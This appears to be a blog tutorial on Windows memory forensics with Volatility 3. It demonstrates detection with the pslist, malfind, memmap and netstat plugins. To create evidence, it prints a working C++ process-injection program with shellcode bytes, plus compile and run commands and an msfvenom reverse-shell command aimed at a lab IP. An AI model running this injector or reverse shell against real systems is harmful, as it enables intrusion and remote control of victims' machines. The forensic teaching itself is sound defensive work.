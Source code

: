 ```yaml
---
title:  "Basic memory forensics with Volatility. Process injection example."
date:   2022-02-07 10:00:00 +0600
header:
  teaser: "/assets/images/39/2022-02-08_19-11.png"
categories:
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - forensics
  - volatility
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/39/2022-02-08_19-11.png){:class="img-responsive"}    

This is a result of my own research on memory forensics via the Volatility Framework.      

### memory forensics

Sometimes, after a system has been pwned, it's important to extract forensically-relevant information. RAM is considered volatile - meaning that it doesn't live long. Each time a computer is restarted, it flushes its memory from RAM, which means that, if a computer is hacked and then is restarted, you'll lose a lot of information that tells the story about how the system was compromised by attacker.    

### volatility Framework

Volatility is a tool that can be used to analyze the volatile memory of a system. Download and install from [here](https://github.com/volatilityfoundation/volatility3)        

### practice example

First of all, for simulating malware activity, create [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection malware:    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

compile:

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection 2](/assets/images/39/2022-02-07_13-48_1.png){:class="img-responsive"}    

and run:   

```bash
.\hack.exe 2380
```

![injection 3](/assets/images/39/2022-02-09_00-04.png){:class="img-responsive"}    

As you can see, everything is work perfectly.    

### winpmem

Secondly, after run our malicious activity, I downloaded `winpmem` into victim's Windows 7 x64 machine. So, run:   

```cmd
>.\winpmem_v3.3.rc3.exe --output mem.raw --format raw --volume_format raw
```

![injection 4](/assets/images/39/2022-02-07_23-06.png){:class="img-responsive"}    

After finished, move `mem.raw` file to my attacker's kali machine.   

### analyzing Windows memory

#### obtaining OS

Obtaining the operating system of the memory dump is pretty easy. The plugin `windows.info.Info` can be specified to enumerate information about the captured memory dump:   

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.info.Info
```
![injection 5](/assets/images/39/2022-02-07_22-59.png){:class="img-responsive"}    

#### analysing processes

Then, I used the `windows.pslist.PsList` plugin to look at the processes that were running on the victim's computer at the time the memory was captured:    

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.pslist.PsList
```
![injection 6](/assets/images/39/2022-02-07_22-59_1.png){:class="img-responsive"}    
![injection 7](/assets/images/39/2022-02-07_23-10.png){:class="img-responsive"}    

Looking at the list, PID `2380` is `mspaint.exe`, which is our victim process.    

### process injected code   

Then for finding hidden and injected code, run:   

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.malfind.Malfind
```
![injection 8](/assets/images/39/2022-02-09_00-54.png){:class="img-responsive"}    

![injection 9](/assets/images/39/2022-02-07_23-13.png){:class="img-responsive"}    

As you can see, we found memory section which we injected our `meow-meow` payload.    

Then, dump the process memory with `windows.memmap.Memmap` plugin:       

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw --output-dir ./cybersec_blog/2022-02-07-mem-forensics-1/dump/ windows.memmap.Memmap --pid 2380 --dump
```

![injection 10](/assets/images/39/2022-02-07_23-17.png){:class="img-responsive"}    

### finding strings

The `strings` command is a popular static malware analysis tool that can quickly assist in extracting human-readable pertaining to a malicious file:    

```bash
strings -e l ./cybersec_blog/2022-02-07-mem-forensics-1/dump/pid.2380.dmp | grep -ie "meow-meow"
```

![injection 11](/assets/images/39/2022-02-07_23-19.png){:class="img-responsive"}    

![injection 12](/assets/images/39/2022-02-07_23-20.png){:class="img-responsive"}    

### network connections

Next, I tested a scenario in which a malware or an attacker injects code into an already running process, and only then initiates a connection. Let's go to replace our payload in malware example as `msfvenom` reverse shell for demo:   

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.2.6 LPORT=4444 EXITFUNC=thread -f c
```

![injection 13](/assets/images/39/2022-02-08_18-51.png){:class="img-responsive"}    

![injection 14](/assets/images/39/2022-02-08_18-57.png){:class="img-responsive"}    

For the correctness of the experiment, we will launch our malware and make a memory dump:

![injection 15](/assets/images/39/2022-02-09_02-27.png){:class="img-responsive"}    

![injection 16](/assets/images/39/2022-02-09_02-32.png){:class="img-responsive"}    

Then run Volatility with `windows.netstat.NetStat` plugin. This plugin allows you to see the network connections on the machine at the time the memory was captured:        

```bash
python3 ./volatility3/vol.py -f ./cybersec_blog/2022-02-07-mem-forensics-1/dump/mem.raw windows.netstat.NetStat | grep -ie "mspaint.exe"
```

![injection 17](/assets/images/39/2022-02-09_02-36.png){:class="img-responsive"}    

### conclusion

There are still a ton of other plugins that are currently available that I did not mention in this tutorial and the memory sample I were analyzing was a Windows memory dump, because I did not work with the different plugins that target the Linux and Mac operating systems.   

I hope this post will be very helpful for entry level cybersec specialists from blue team.    

[Volatility3](https://github.com/volatilityfoundation/volatility3)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
